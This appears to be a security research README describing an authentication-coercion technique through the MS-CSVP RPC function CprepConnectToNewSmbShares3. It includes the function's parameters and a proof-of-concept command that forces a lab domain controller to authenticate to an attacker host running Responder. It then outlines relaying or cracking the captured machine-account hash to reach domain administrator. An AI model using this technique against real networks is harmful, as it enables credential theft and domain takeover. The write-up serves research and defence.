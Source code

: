 # MS-CSVP - Remote call to CprepConnectToNewSmbShares3 (opnum 8)

## Summary

+ **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

+ **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CprepConnectToNewSmbShares3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepConnectToNewSmbShares3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepConnectToNewSmbShares3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepConnectToNewSmbShares3(
   [in, string, size_is(dwNumberOfPaths,)] 
     LPWSTR* ppwszSharePaths,
   [in] DWORD dwNumberOfPaths
 );
```

## References

+ Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

+ Documentation of function `CprepConnectToNewSmbShares3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/aa2f7339-c1f7-473b-a2b7-94838b6657d4